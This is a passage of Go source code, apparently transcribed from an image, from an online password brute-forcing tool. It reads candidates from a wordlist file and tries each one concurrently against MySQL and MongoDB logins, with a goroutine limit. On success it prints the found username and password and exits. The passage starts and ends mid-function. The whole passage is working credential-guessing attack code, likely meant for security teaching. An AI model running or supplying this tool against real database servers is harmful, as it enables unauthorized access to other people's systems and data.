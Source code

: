 ```
   // Ping will cause database to connect and test credentials 
   err = db.Ping() 
   if err == nil { // No error = success 
      exitWithSuccess(password) 
   } else { 
      // The error is likely just an access denied, 
      // but we print out the error just in case it 
      // is a connection issue that we need to fix 
      log.Println("Error authenticating with MySQL. ", err) 
   } 
   doneChannel <- true 
} 

func loginMongo(password string) { 
   // Define Mongo connection info 
   // mgo does not use the Go sql driver like the others 
   mongoDBDialInfo := &mgo.DialInfo{ 
      Addrs:   []string{host}, 
      Timeout: 10 * time.Second, 
      // Mongo does not require a database name 
      // so it is omitted to improve auth chances 
      //Database: dbName, 
      Username: username, 
      Password: password, 
   } 
   _, err := mgo.DialWithInfo(mongoDBDialInfo) 
   if err == nil { // No error = success 
      exitWithSuccess(password) 
   } else { 
      log.Println("Error connecting to Mongo. ", err) 
   } 
   doneChannel <- true 
} 

func exitWithSuccess(password string) { 
   log.Println("Success!") 
   log.Printf("\nUser: %s\nPass: %s\n", username, password) 
   os.Exit(0) 
} 

func bruteForce() { 
   // Load password file 
   passwords, err := os.Open(passwordFile) 
   if err != nil { 
      log.Fatal("Error opening password file. ", err) 
   } 

   // Go through each password, line-by-line 
   scanner := bufio.NewScanner(passwords) 
   for scanner.Scan() { 
      password := scanner.Text() 

      // Limit max goroutines 
      if activeThreads >= maxThreads { 
         <-doneChannel // Wait 
         activeThreads -= 1 
      } 

      // Test the login using the specified login function 
      go loginFunc(password) 
      activeThreads++ 
   } 

```